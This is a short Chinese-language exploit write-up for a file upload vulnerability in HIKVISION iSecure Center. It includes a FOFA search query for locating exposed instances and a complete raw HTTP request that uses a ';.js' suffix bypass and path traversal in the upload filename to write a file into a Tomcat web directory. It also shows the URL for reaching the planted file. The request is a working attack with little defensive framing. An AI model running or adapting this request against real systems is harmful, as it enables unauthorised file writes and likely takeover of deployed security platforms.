 # HIKVISION iSecure Center综合安防管理平台文件上传

## 1.漏洞描述

HIKVISION iSecure Center综合安防管理平台存在文件上传漏洞

## 2.搜索语法

```plain
app="HIKVISION-iSecure-Center"
```

## 3.漏洞复现

```plain
POST /center/api/files;.js HTTP/1.1
Host: 127.0.0.1
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 251
Content-Type: multipart/form-data; boundary=e54e7e5834c8c50e92189959fe7227a4

--e54e7e5834c8c50e92189959fe7227a4
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/hhh.txt"
Content-Type: application/octet-stream

hhh
--e54e7e5834c8c50e92189959fe7227a4--
```

响应包如下：

![image-20240613201208922](D:\py\EXP\HIKVISION iSecure Center综合安防管理平台文件上传\image-20240613201208922.png)

拼接路径访问：

/clusterMgr/hhh.txt;.js

![image-20240613201305546](D:\py\EXP\HIKVISION iSecure Center综合安防管理平台文件上传\image-20240613201305546.png)